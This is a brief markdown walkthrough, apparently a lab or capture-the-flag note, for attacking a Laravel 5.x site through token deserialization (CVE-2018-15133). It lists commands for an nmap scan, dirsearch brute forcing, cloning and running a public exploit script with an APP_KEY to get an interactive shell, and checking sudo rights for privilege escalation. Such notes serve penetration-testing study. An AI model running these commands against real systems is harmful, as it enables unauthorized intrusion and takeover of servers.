 ### Laravel 5.x Token Deserialization

**1. Port Scan**

```bash
 sudo nmap -sS -sV -sC --top-ports 100 ip_address -oX ip_address
 ```
 
 **2. Web Directory Brute Force**
 
 ```bash
 dirsearch -u http://ip_address
 ```
 
** 3. Search posible Laravel 5.x exploit**
 
 ```bash
 searchsploit laravel
 ```
 
** 4. Exploit**
 
 ```bash
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133
cd exploit_laravel_cve-2018-15133/
pip3 install -r requirements.txt

python3 pwn_laravel.py http://ip_address/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
```

**5. Privellege Escalation**

```bash
sudo -l

# https://gtfobins.github.io/
```